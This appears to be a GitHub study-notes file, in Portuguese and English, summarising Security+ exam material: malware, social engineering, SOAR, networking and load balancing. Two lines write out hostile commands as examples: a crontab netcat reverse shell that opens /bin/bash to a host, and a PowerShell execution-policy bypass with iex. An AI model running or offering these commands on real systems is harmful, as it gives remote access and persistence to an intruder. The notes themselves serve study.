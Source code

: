 # Conhecimentos adiquiridos após fazer testes

## Threats, Malwares and Common Vulnerabilities

1. **Shimming** is when the attacker places some malware between an application and some other file and intercepts the communication to that file (usually to a library or system API). In many cases, this is done with a driver for a hardware component.
2. **Refactoring** é o ato de refatorar o código(e o comportamento) do malware para ele não ser reconhecido em nenhum software anti-malware baseado em signature
3. “Cyberintelligence **fusion** is the process of gathering, analyzing, and then distributing information between disparate agencies and organizations. **Fusion centers** like those operated by the U.S. Department of Homeland Security (DHS) focus on strengthening shared intelligence activities.”
4. No sentido estrito da palavra, **malwares podem ser considerados PUPs**
5. “**White teams** act as judges and observers during cybersecurity exercises.”
6. “SOAR is a relatively new category as defined by Gartner. Security orchestration, automation, and response includes threat and vulnerability management, security incident response, and security operations automation, **but not automated malware analysis**.”
7. “**rootkits are more likely** to be detected by AV programs”
8. Principios da engenharia social:
      1. Familiarity
      2. Trust
      3. Scarcity
      4. Authority
      5. Urgency
      6. Intimidation
      7. Consensus, sometimes called social proof, is a social engineering principle that leverages the fact that people are often willing to trust groups of other people.
9. Polymorphic Virus é um Virus que muda sua forma a cada execução
10. Time-of-Check/Time-of-use é uma espécie de race condition
11. “Elicitation, or the process of eliciting information through conversation to gather useful information, is a key tool in a penetration tester’s social engineering arsenal.”
12. “A macro virus is a malicious script (macro) embedded into a file, typically a Microsoft Office file. They are typically written in Visual Basic for Applications (VBA) script”
13. “ Pharming attempts to redirect traffic intended for a legitimate site to another malicious site. Attackers most often do this by changing the local hosts file or by exploiting a trusted DNS server.”
14. Apesar de acharmos que um IP estrangeiro seja uma obrigatoriedade de uma APT “would attack from a foreign IP address, they often use a compromised address in the target country as a base for attacks”
15. Prepending : “Prepending is described by CompTIA as “adding an expression or a phrase,”. “Thus, you need to know that when it is used for this exam it can mean one of three things: adding an expression or phrase to an email, subject line, or headers to either protect or fool users. They also note that it can be used when adding data as part of an attack, and that social engineers may “prepend” information by inserting it into conversation to get targets to think about things the attacker wants them to.”
16. “Although auditing some libraries or libraries that are custom-developed for the code is common, auditing all libraries used in the code is unlikely except in exceptional situations.”
17. “A denial-of-service (DoS) attack may target a memory leak. If an attacker can induce the web application to generate the memory leak, then eventually the web application will consume all memory on the web server and the web server will crash.”
18. **Skimming** is stealing our credit card information as we use the card for some other purpose.
19. **Man in the Browser** Malware is used to change the client's computer network routing to perform a classic man-in-the-middle attack.
20. Botnets geralmente se conectam com o Command and Control via IRC, um protocolo antigo usado para Internet Relay Chat. Padrao do IRC de fato sempre foi executar o IRC em TCP 6667.
21. Calling their extension é ligar para o RAMAL. Vishing é Phishing de Voice, não de Video!
22. O arquivo /etc/passwd é um banco de dados de informações baseadas em texto sobre os usuários que podem logar no sistema ou outras identidades de usuários do sistema operacional que possuem processos em execução. Uma solução é um arquivo de senhas "sombra" (shadow) para armazenar os hashes de senha separados de outros dados no arquivo passwd legível globalmente. Para arquivos locais, ele normalmente é o /etc/shadow nos sistemas Linux e Unix
23. “Although Structured Query Language (SQL) queries are often parameterized, Lightweight Directory Access Protocol (LDAP) security practices focus instead on user input validation and filtering of output to ensure that an excessive amount of data is not being returned in queries”
24. “URL redirection has many legitimate uses, from redirecting traffic from no-longer-supported links to current replacements to URL shortening, but URL redirection was commonly used for phishing attacks. Modern browsers display the full, real URL, helping to limit the impact of this type of attack.”
25. Security orchestration, automation, and response (SOAR) services are designed to integrate with a broader range of both internal and external applications. Tanto SOAR quanto SIEM são automatizados, mas o SOAR é integrado para responder a ataques
26. “The U.S. Trusted Foundry program is intended to prevent supply chain attacks by ensuring end-to-end supply chain security for important integrated circuits and electronics.”
27. “Passwords in memory are often stored in plain text for use.”
28. Ao colocar uma URL como parametro de uma request: “This is an attempt to get the server to send a request to itself as part of an API call, and it is an example of server-side request forgery.”
29. “Hybrid warfare is a relatively new term that describes the multipronged attacks conducted as part of a military or national strategy of political warfare that uses traditional, asymmetric, and cyberwarfare techniques along with influence methods to achieve goals”
30. “Linux privileges can be set numerically, and 777 sets user, group, and world to all have read, write, and execute access to the entire /etc directory.”
31. “ISACs, são information sharing and analysis centers, ”
32. “CompTIA defines “maneuver” in the context of threat hunting as how to think like a malicious user to help you identify potential indicators of compromise in your environment.”
33. “Proprietary, or closed threat, intelligence is threat intelligence that is not openly available”
34. crontab -e 0 * * * * nc(NETCAT) example.com 8989 -e /bin/bash -> Esse comando faz uma reverse shell usando o crontab para fazer um netcat de hora em hora para se conectar a um dominio pela porta 8989 e permitir a execução do /bin/bash
35. powershell.exe -ep Bypass -nop -noexit -c iex -> Upload algo para a memoria
36. “The Security+ exam outline lists seven major impact categories, including data loss, data breaches, and data exfiltration. Data modification is not listed, but it is a concern as part of the integrity leg of the CIA triad”
37. Caso seu sistema esteja sendo acessado em diferentes portas, pode estar ocorrendo um Scan
38. A primeira coisa a se fazer ao identificar uma Vuln é acessar a CVE e ver as fixes


## Architecture and Design

1. SAN é sigla de Storage Area Network
2. Perfect forward secrecy (PFS) is used to change keys used to encrypt and decrypt data, ensuring that even if a compromise occurs, only a very small amount of data will be exposed
3. “warm site, which has some or all of the infrastructure and systems he needs but does not have data.”
4. “Storage area network (SAN) replication copies the contents of one repository to another repository, such as an organization’s central SAN environment to a remote SAN at the hardware or block level.”

# New Book

## Chapter 1

1. A jump server, jump host or jump box is a system on a network used to access and manage devices in a separate security zone
2. SSL passthrough is the action of passing data through a load balancer to a server without decrypting it
3. SSL termination is a process by which SSL-encrypted data traffic is decrypted (or offloaded)
4. IPV6 Link Local começam com FE80 enquanto IPV4 com 169.254, é o endereço unicast para se comunicar com a NIC
5. Protocolo de Descoberta de Vizinhos é um padrão do conjunto de protocolos de comunicação TCP/IP usado com o IPv6, que opera na camada de rede do modelo Internet, responsável por seguintes funções de configuração e descoberta: Autoconfiguração de endereço dos nós; Descoberta de outros nós na rede local


### Load Balancing
1. Health probes allows Load Balancers to detect the backend endpoint status.
2. Fixed Weighting is a load balancing algorithm where the administrator assigns a weight to each application server
3. Round Robin é um por vez
4. Least Connection é redirecionar para o que tiver menos
5. A reverse proxy accepts clients requests and forwards them to an internal host or hosts for processing, thus hiding the true identity of the internal host(s). É o termo mais proximo de Load Balancer

